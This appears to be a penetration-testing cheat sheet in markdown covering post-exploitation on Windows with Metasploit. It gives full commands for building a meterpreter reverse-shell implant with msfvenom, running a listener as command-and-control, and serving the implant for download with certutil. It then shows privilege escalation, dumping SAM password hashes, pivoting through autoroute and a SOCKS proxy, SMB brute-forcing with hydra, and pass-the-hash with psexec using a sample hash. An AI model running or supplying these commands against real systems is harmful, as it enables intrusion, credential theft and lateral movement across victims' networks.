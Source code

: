### stable access
#### generate implant  
> msfvenom -p windows/x64/meterpreter_reverse_tcp LPORT=443 LHOST=***[OWN IP]*** -f exe -o implant.exe  
#### start c2  
> msfconsole  
> use exploit/multi/handler  
> set payload windows/x64/meterpreter_reverse_tcp  
> set lport 443  
> set lhost ***[OWN IP]***  
> run -j  
#### start webserver for implant download
> python3 -m http.server 80
#### windows LOLBIN basic download of implant
> certutil -urlcache -f http://***[OWN IP]***/implant.exe implant.exe  

### actions on target
#### attempt to get SYSTEM privs
> getsystem  
#### dump SAM
> hashdump
#### set up pivoting
##### in meterpreter session
> arp  
> ipconfig  
> netstat  
> background  
##### from msfconsole
> use post/multi/manage/autoroute  
> set session ***[NUMBER]***  
> set subnet ***[SUBNET]***  
> set netmask ***[NETMASK]***  
> run  
> use auxiliary/server/socks_proxy  
> set srvport 9050  
> set version 4a  
> run  
##### from bash
> proxychains nmap -Pn -p445 ***[TARGET IP]*** --script=smb-enum*  
> proxychains hydra -p password1 -l administrator smb://***[TARGET IP]***  
#### pass-the-hash
##### in meterpreter session
> hashdump  
> *Administrator:500:aad3b435b51404eeaad3b435b51404ee:5835048ce94ad0564e29a924a03510ef*
> background
##### from msfconsole
> use exploit/windows/smb/psexec  
> set rhosts ***[TARGET IP]***  
> set smbdomain .  
> set smbuser Administrator  
> set smbpass aad3b435b51404eeaad3b435b51404ee:5835048ce94ad0564e29a924a03510ef  
> set payload windows/x64/meterpreter/bind_tcp  
> set lhost ***[OWN IP]***  
> run

